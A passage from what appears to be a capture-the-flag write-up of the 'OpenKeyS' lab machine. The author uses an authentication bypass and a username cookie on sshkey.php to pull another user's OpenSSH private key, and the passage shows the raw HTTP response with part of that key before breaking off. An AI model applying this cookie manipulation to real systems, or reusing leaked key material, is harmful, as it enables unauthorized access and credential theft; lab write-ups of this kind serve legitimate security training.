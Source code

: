 Putting the username in the cookie seemed like a good bet, and logging in with the bypass and doing this gave me a redirect on the login page

![](/assets/img/4-schallenge-jennifer.png)

After getting a valid logged in PHP session ID, I tried multiple ways of specifying the only username I had found. I was able to give the name in the cookie on the `sshkey.php` page and get a response back!

```text
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: close
Content-type: text/html; charset=UTF-8
Date: Fri, 13 Nov 2020 01:55:44 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: OpenBSD httpd
X-Powered-By: PHP/7.3.13
Content-Length: 3093

<!DOCTYPE html>


<html><head><title>OpenKeyS - Retrieve your OpenSSH Keys</title></head><body><div><h3>OpenSSH key for user jennifer</h3><p style='font-family: monospace, monospace;'>-----BEGIN OPENSSH PRIVATE KEY-----<br />
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn<br />
NhAAAAAwEAAQAAAYEAo4LwXsnKH6jzcmIKSlePCo/2YWklHnGn50YeINLm7LqVMDJJnbNx<br />
OI6lTsb9qpn0zhehBS2RCx/i6YNWpmBBPCy6s2CxsYSiRd3S7NftPNKanTTQFKfOpEn7rG<br />
nag+n7Ke+iZ1U/FEw4yNwHrrEI2pklGagQjnZgZUADzxVArjN5RsAPYE50mpVB7JO8E7DR<br />
PWCfMNZYd7uIFBVRrQKgM/n087fUyEyFZGibq8BRLNNwUYidkJOmgKSFoSOa9+6B0ou5oU<br />
qjP7fp0kpsJ/XM1gsDR/75lxegO22PPfz15ZC04APKFlLJo1ZEtozcmBDxdODJ3iTXj8Js<br />
kLV+lnJAMInjK3TOoj9F4cZ5WTk29v/c7aExv9zQYZ+sHdoZtLy27JobZJli/9veIp8hBG<br />
717QzQxMmKpvnlc76HLigzqmNoq4UxSZlhYRclBUs3l5CU9pdsCb3U1tVSFZPNvQgNO2JD<br />
S7O6sUJFu6mXiolTmt9eF+8SvEdZDHXvAqqvXqBRAAAFmKm8m76pvJu+AAAAB3NzaC1yc2<br />
EAAAGBAKOC8F7Jyh+o83JiCkpXjwqP9mFpJR5xp+dGHiDS5uy6lTAySZ2zcTiOpU7G/aqZ<br />
9M4XoQUtkQsf4umDVqZgQTwsurNgsbGEokXd0uzX7TzSmp000BSnzqRJ+6xp2oPp+ynvom<br />
dVPxRMOMjcB66xCNqZJRmoEI52YGVAA88VQK4zeUbAD2BOdJqVQeyTvBOw0T1gnzDWWHe7<br />
iBQVUa0CoDP59PO31MhMhWRom6vAUSzTcFGInZCTpoCkhaEjmvfugdKLuaFKoz+36dJKbC<br />
f1zNYLA0f++ZcXoDttjz389eWQtOADyhZSyaNWRLaM3JgQ8XTgyd4k14/CbJC1fpZyQDCJ<br />
```